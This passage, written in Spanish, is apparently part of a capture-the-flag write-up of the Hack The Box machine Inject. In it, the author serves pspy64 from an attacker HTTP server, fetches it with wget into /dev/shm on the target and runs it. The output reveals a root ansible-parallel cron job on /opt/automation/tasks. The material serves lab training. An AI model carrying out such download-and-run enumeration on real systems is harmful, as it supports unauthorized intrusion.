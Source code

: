 Vamos a subir el `pspy` para mirar tareas `cron` <https://github.com/DominicBreuker/pspy/releases>

```bash
❯ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
10.10.11.204 - - [07/Jul/2023 13:28:36] "GET /pspy64 HTTP/1.1" 200 -
```

```bash
bash-5.0$ cd /dev/shm/
bash-5.0$ pwd
/dev/shm
bash-5.0$ wget http://10.10.14.213:8080/pspy64
--2023-07-07 19:28:29--  http://10.10.14.213:8080/pspy64
Connecting to 10.10.14.213:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3104768 (3.0M) [application/octet-stream]
Saving to: ‘pspy64’

pspy64              100%[===================>]   2.96M   931KB/s    in 3.3s    

2023-07-07 19:28:32 (931 KB/s) - ‘pspy64’ saved [3104768/3104768]

bash-5.0$ chmod +x pspy64 
bash-5.0$ 
```

Ahora lo corremos 

```bash
bash-5.0$ ./pspy64 
```

Bueno vemos que se esta corriendo `ansible-parallel` a cualquier archivo `.yml` bajo esa ruta 

![](/assets/images/htb-writeup-inject/web12.png)

Y bueno también hay vemos que se esta haciendo una copia de un `yml` de `root` al directorio `/opt/automation/tasks/` ![](/assets/images/htb-writeup-inject/web13.png)

Y efectivamente hay esta 

```bash
bash-5.0$ cd /opt/automation/tasks/
bash-5.0$ ls -la
total 24
drwxrwxr-x 2 root staff  4096 Jul  7 19:32 .
drwxr-xr-x 3 root root   4096 Oct 20  2022 ..
-rw-r--r-- 1 root root    150 Jul  7 19:32 playbook_1.yml
-rw-r--r-- 1 phil phil  12288 Jul  7 12:30 .playbook.yml.swp
bash-5.0$ 
```
